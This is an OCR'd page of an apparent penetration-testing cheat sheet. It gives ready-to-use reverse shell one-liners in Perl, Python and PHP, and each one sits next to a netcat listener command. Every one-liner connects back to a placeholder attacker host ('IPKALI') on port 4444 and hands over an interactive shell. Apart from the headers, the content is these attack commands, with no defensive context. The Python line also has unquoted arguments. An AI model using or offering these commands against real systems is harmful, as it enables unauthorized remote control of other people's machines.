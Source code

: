 ```



<!--- category: Webshell --->
<!--- id: perl --->
<!--- title: Reverse shell: Perl --->
<!--- keywords:  --->
## Reverse shell: Perl

Launch a listening nc on your host:
```
nc -lvp 4444
```

Launch the reverse shell in perl on your target:
```
perl -e 'use Socket;$i="IPKALI";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```




<!--- category: Webshell --->
<!--- id: python --->
<!--- title: Reverse shell: Python --->
<!--- keywords:  --->
## Reverse shell: Python

Launch a listening nc on your host:
```
nc -lvp 4444
```

Launch the reverse shell in python on your target:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IPKALI,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(/bin/bash)'
```




<!--- category: Webshell --->
<!--- id: php --->
<!--- title: Reverse shell: Php --->
<!--- keywords:  --->
## Reverse shell: Php

Launch a listening nc on your host:
```
nc -lvp 4444
```

Launch the reverse shell in php on your target:
```
php -r '$sock=fsockopen("IPKALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```




<!--- category: Webshell --->
```